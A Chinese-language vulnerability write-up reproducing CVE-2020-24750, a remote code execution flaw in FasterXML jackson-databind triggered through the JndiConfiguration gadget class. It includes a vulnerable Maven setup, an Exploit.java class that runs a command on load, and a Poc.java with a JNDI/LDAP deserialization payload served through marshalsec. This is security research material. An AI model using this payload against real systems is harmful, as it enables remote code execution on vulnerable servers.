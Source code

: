 （CVE-2020-24750）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

com.pastdev.httpcomponents.configuration.JndiConfiguration类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()
-   使用了com.pastdev.httpcomponents.configuration.JndiConfiguration第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4

jackson-databind before 2.8.11.6

jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息

`https://github.com/FasterXML/jackson-databind/issues/2798`

![4.png](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

> 相关类确定：

`https://github.com/kishorkunal-raj/jackson-databind/blob/5f4148e6c083529a2d12c6dc986b07a03850f503/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java#L198`

![5.png](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId27.png)

之后在源代码中定位到`com.pastdev.httpcomponents.configuration.JndiConfiguration`类，发现一处可疑的JNDI注入，我们只需要构造参数即可实现，非常简单：

![6.jpeg](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId28.jpg)

整个利用链如下所示：

    mapper.readValue
        ->JndiConfiguration
            ->lookup

### 漏洞复现

#### 环境搭建

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/com.pastdev.httpcomponents/configuration -->
        <dependency>
          <groupId>com.pastdev.httpcomponents</groupId>
          <artifactId>configuration</artifactId>
          <version>0.1.3</version>
        </dependency>

          <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞复现

这里使用LDAP的利用方式进行漏洞的利用演示，RMI的方式也是类似的，且RMI比LDAP要对JDK版本有很大的局限性\~LDAP利用方式：jdk版本：JDK
11.0.1、8u191、7u201、6u211之前，笔者这里采用JDK 1.8.0\_181

##### 编译Exploit.java

> Exploit.java

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

编译Exploit.java文件：

![1.png](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId33.png)

之后在本地搭建HTTP服务并将Exploit.class放置在web目录下，之后通过marshalsec来启动一个LDAP服务使用marshalsec来启动一个LDAP服务：

![2.png](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId34.png)

##### 执行漏洞POC

> Poc.java

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.pastdev.httpcomponents.configuration.JndiConfiguration\",\"ldap://127.0.0.1:1099/Exploit\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

![3.jpeg](resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId36.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8210\#toc-2
